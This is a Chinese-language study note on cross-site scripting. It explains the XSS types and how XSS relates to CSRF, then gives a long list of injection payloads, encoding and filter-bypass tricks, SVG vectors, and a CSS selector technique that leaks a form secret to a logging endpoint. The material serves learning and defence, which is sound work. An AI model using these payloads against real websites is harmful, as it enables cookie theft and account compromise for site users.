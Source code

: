 ### 基本原理

#### 简介

> XSS在我看来是较为简单的漏洞，这是因为：一.它涉及的语言少，核心是Javascript，需要了解HTML、CSS（有时需了解不同浏览器的特性），后端语言和框架则不用在意，只需要关注其防护方式即可；二.类型少，只有反射性、存储型和DOM型三种；三.防御起来较为简单，只要注意对所有输出采用HTML实体编码，基本上很难产生XSS漏洞。
> 
> 虽然XSS较为简单，但其攻击方式的多样，使得其危害不小，以前听闻很多厂商都不收XSS的洞，这是我不敢苟同的。
> 
> 这里关于XSS的三种类型，之来区分一下反射型和DOM。有人说大多数DOM属于反射型，反射型很直观的特点是，在存在漏洞的地方写入JavaScript脚本后，脚本经过后端不严格的过滤又回到前端执行，对于攻击者来说，他需要构造好一个URL给被攻击者。而DOM型与此极其类似，不同的是，DOM型写的Javascript攻击脚本不会被发送到后端，因为有些场景是前端的JavaScript对输入进行操作（要非常注意innerHTML），而无需发送到后端，这个时候，如果处理输入的JavaScript没有进行严格过滤，攻击者同样可以构造恶意脚本。

#### XSS与CSRF

> XSS和CSRF有一些类似的地方，XSS的反射型和DOM漏洞都依赖于被害人点击攻击者精心构造的链接，CSRF也是这样，不同的是CSRF攻击的方式更为直接了，它无需构造什么Javascript攻击脚本，它构造的链接是目标网站本就有的功能，例如删除某一篇文章，当被害人点击这个url且浏览器本地有尚未过期的cookie时，攻击就完成了。检查CSRF是否存在的方式也很简单，只需要看referer字段是否存在并有效即可，另外，网站为了防御CSRF的攻击，也经常采用提示跳转页的方式。

### 攻击

#### 攻击的两大方式

##### 构造标签内属性

```javascript
<input type="keyword" value="attack">
```

> 假设我们在某处的输入会放在上面的value中，此时，我们可以通过构造类似下面的啊脚本完成攻击

```javascript
// 我们输入了"onclick=alert()"，闭合前面属性的值，然后后面添加了一个可以执行JavaScript脚本的属性
// 这里的onclick可以替换成许多响应事件的函数
<input type="keyword" value=""onclick=alert()"">
```

##### 构造标签

```javascript
<input type="keyword" value="attack">
```

> 与上面相同的

```javascript
// "><script>alert()</scr11ipt><"是我们输入的内容
<input type="keyword" value=""><script>alert()</script><"">
```

> 除了最直接的script标签，还有许多标签可以利用

```html
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<div onmouseover='alert(1)'>DIV</div>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>

<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<body onload="alert('xss');"></body>

<!-- css相关的xss -->
<div style="background-image:url('http://127.0.0.1/xss.gif')"></div>
<style>body {background: url('http://127.0.0.1/xss.gif')}</style>
<!-- expression()表达式在IE7及以下是有效的，在IE8及以上就失效了 -->
<div style="{left: expression(alert('xss'))}"></div>
<!-- 利用 @import 引入外部 js -->
<!-- 被引用的css body {event: expression (onload = function() {alert('XSS');})} -->
<style type="text/css">@import url(http://www.xx.css)</style>
<!-- 还可以利用 @import 直接执行 XSS 代码 -->
<style>@import "javascript:alert('xss')";</style>
```

#### 补充：有关JavaScript伪协议

> 例如onclick="myFunc()"这样的事件可以执行JavaScript，它也支持onclick="javascript:alert();"这种伪协议的写法，在浏览器打开javascript：URL的时候，它会将url当作JavaScript代码运行，当返回值不为undefined的时候，=前的属性将会被赋值为JavaScript的执行结果。
> 
> src、href等属性的合法内容除了是url外，还可以直接跟内容，例如\<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">\</a>，JavaScript伪协议的最后一条语句执行产生的字符串将被视为数据内容。
> 
> 注意“当返回值不为undefined的时候”，url可以是用分号分割的多条JavaScript语句，这意味着当我们希望攻击更隐蔽的发生时，可以采用href=" javascript:window.open("about:blank");void 0;"这样的写法，最后的void 0 将会使前面的JavaScript代码无法改变当前页面的dom元素。
> 
> 支持JavaScript伪协议的有src、href等可以加载链接的属性，也有例如onclick、onload这样的事件

##### \<a href="" target="\_blank">中的target="\_blank"限制JavaScript伪协议的作用

target="\_blank"属性是表明按照href的链接打开一个新窗口，当href的内容为JavaScript伪协议时，其不会生效

#### 补充：编码

##### 浏览器解码顺序

> 浏览器–>`HTML解码-->URL解码-->JavaScript解码`
> 
> [XSS_伪协议与编码绕过_伪协议加编码 s_南部余额的博客-CSDN博客](https://blog.csdn.net/qq_33181292/article/details/117251090)

##### html实体编码

> HTML实体编码有三种写法，实体名称\&lt; 十进制实体编码\&#60; 十六进制实体编码\&#x003c。HTML实体编码可以用于编辑“数据状态中的字符引用”、“属性值状态中的字符引用” 和 “RCDATA状态中的字符引用” 

* 数据状态中的字符引用：数据状态就是解析一个标签内里面的内容，如 `<div>...</div>` 中的内容
* 属性值状态中的字符引用：属性值状态中的字符引用就好理解了，就是src，herf这样的属性值中的HTML实体，他也是会先进行HTML解码的，比如下面的语句，会先对里面HTML解码，然后再继续往下执行

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

* RCDATA状态中的字符引用:HTML中有五类元素
  
  * 空元素(Void elements)，如 `<area>`、`<br>`、`<base>` 等等。空元素不能容纳任何内容，因为它们没有闭合标签，没有内容能够放在开始标签和闭合标签中间。
  
  * 原始文本元素(Raw text elements)，有 `<script>` 和 `<style>`。原始文本元素可以容纳文本。
  
  * RCDATA元素(RCDATA elements)，有 `<textarea>` 和 `<title>`。RCDATA元素可以容纳文本和字符引用。

> 注意到注意到RCDATA元素中有\<textarea\> 和 \<title\> 两个属性并且有字符引用，也就是当实体字符出现在这两个标签里面的时候，实体字符会被识别并进行HTML编码解析。这里要再提醒一次，在解析这些字符引用的过程中不会进入“标签开始状态”，所以就不会建立新的标签，所以下面这个语句触发不了XSS，这涉及到了RCDATA的一个特殊的情况。即在浏览器解析RCDATA元素的过程中，解析器会进入“RCDATA状态”。在这个状态中，如果遇到“<”字符，它会转换到“RCDATA小于号状态”。如果“<”字符后没有紧跟着“/”和对应的标签名，解析器会转换回“RCDATA状态”，并不会进入“标签开始状态”的。**这意味着在RCDATA元素标签的内容中，唯一能够被解析器认做是标签的就只有 \</textarea\> 或者 \</title\>**，因此，在 <textarea> 和 <title> 的内容中不会创建标签，就不会有脚本能够执行了。另外，刚刚也谈到了，**`<script>` 和 `<style>`是原始文本元素，在这两个标签内部的内容只有文本，因此，html实体编码在这里无效**。

![image-20230906170541489](.\images\image-20230906170541489.png)

![image-20230906170634555](.\images\image-20230906170634555.png)

![image-20230906170658759](.\images\image-20230906170658759.png)

​    仅有\<p\>...\</p\>内的JavaScript执行

* 总结：利用html实体编码进行绕过执行JavaScript只有在编码支持JavaScript伪协议的属性的属性值时有用，在其他地方试图使用JavaScript实体编码编码\<\> 属性值 标签名等是达不到效果的。虽然上面提到了用html实体编码编码\<script\>标签内的JavaScript代码也是不生效的，但是我们可以利用\<svg\>标签达成我们的目的，这一点后面再说。

##### JavaScript编码

见链接

##### base64编码

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<!--base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg 解码：<script>alert(1)</script>-->
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
<iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
```

##### 多层编码

见链接

#### 补充：注释

```html
<!--这是单行注释-->
<!--
    这是多行注释
    这是多行注释
    这是多行注释
-->
```

```css
/*这是单行注释*/

/*
    这是多行注释
    这是多行注释
    这是多行注释
*/
```

```javascript
//这是单行注释
/*
    这是多行注释
    这是多行注释
    这是多行注释
*/

// 这里输入了</address> <img src=# onerror=alert(1)//，起到了闭合前文引号的同时注释后面的引号
<img src="</address> <img src=# onerror=alert(1)//">
```

> 注释的使用：html注释常常用来闭合标签；JavaScript的注释可以在在一些不和闭合引号的地方将其注释

#### 过滤和绕过

##### 关键字过滤

* 大小写绕过
* 双写绕过
* 编码绕过
* 回车、tab、空格、注释、括号等分割引号或者script标签内的**JavaScript语句**

```javascript
/*添加空格、TAB、回车、换行：*/alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)
/*添加多行注释：*/alert/*abcd*/(/xss/)
/*添加注释换行：*/alert//abcd%0A(/xss/)、confirm//abcd%0D(/xss/)
/*使用''代替()：*/alert'xss'
/*使用括号分割：*/(alert)(/xss/)、((alert))(/xss/)
```

注意分割的地方，直接将一个关键字aler%20t分开是不行的，空格符分割涉及到JavaScript的**no LineTerminator here**规则和自动插入分号规则。

##### 关键字变形

* 大小写
* 编码

##### 特殊符号过滤

> 全过滤了肯定无法绕过，针对过滤不完全的情况则有很多方法，主要是有很多字符可以作为替换方案

* 过滤了引号：html可以不用引号；JavaScript可以用反引号
* 过滤了&符号阻止编码：可以使用其他编码
* 过滤了括号：有些JavaScript函数后可以不加括号，或者用 //分割
* 对url进行过滤
  * 过滤http：可以直接用\\\\代替http:\\\
  * 过滤 . :可以用。代替，有些浏览器会自动优化中文句号
* 过滤了空格
  * 使用其他空白字符代替 %0d %0a

##### 将特殊字符转化为HTML实体

* 以php为例，默认的htmlspecialchars()不过滤单引号，因此使用htmlspecialchars()时需注意合理设置
* 有的场景下，前端输入的返回是在script标签或则JavaScript伪协议内，这时htmlspecialchars()完全无效

##### 利用函数

* 这里利用一些函数就可以使用字符串拼接成JavaScript关键字和函数进行

```javascript
// window.alert("hello world")
window["ale" + "rt"]("Hello, World!");

eval("wind" + "ow.alert('Hello, World!');");
 
var obj = { ale: { rt: function(msg) { alert(msg); } } };
obj["ale"]["rt"]("Hello, World!");

document.write('<script>alert(document.cookie)<\/script>')
```

#### 利用CSS进行XSS

```css
/* 利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码 */
/*  很多浏览器都禁用了，貌似仅IE支持 */
/*  */
<div style="background-im-age:url(javascript:alert('xss'))">
<div style="width:exp/*这里可以注释*/ression(alert('xss'));">

/* 产生的新的攻击方式 */
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

#### 与SVG有关的XSS

##### SVG标签结合html实体编码绕过

```html
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

* 此时\<script\>内的JavaScript支持html实体编码

##### 利用svg文件上传进行XSS

> 代码中的SVG标签和onload事件本身并不依赖于其他特定的标签来触发弹窗。无论它们被放置在哪个标签内，只要浏览器解析并加载了这个SVG标签，onload事件就会被触发。
> 
> SVG标签通常是在HTML文档中嵌入使用的，并且可以放置在许多不同的HTML标签内。具体取决于网页的结构和用途。以下是一些常见的情况：

```html
<body>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</body>

<div>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</div>

<img src="data:image/svg+xml,<svg onload='alert(document.domain)'>">

<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

[用SVG绕过浏览器XSS审计 - r00tgrok - 博客园 (cnblogs.com)](https://www.cnblogs.com/r00tgrok/p/SVG_Build_XSS_Vector_Bypass_Firefox_And_Chrome.html)

### 利用

#### 基本方式

> XSS产生在于后端没有对输入的数据进行检查既返回前端，攻击者可构造script脚本进行提交。当使用GET方法提交数据时，可以直接构造型如url?query=<script>给被害人；当使用POST方法提交数据时，则需要我们在自己的服务器上构造一个恶意页面，使用表单的方式提交数据，注意此处我们写入的恶意脚本在哪，我们的恶意脚本并不是在在我们的恶意界面起作用，因为恶意界面由于同源策略等浏览器安全策略，是获得不了被害人在目标站点的cookie的，我们的恶意脚本是作为输入提交到了目标站点。

### 防御

* HttpOnly
* 在响应报文的header中配置X-XSS-Protection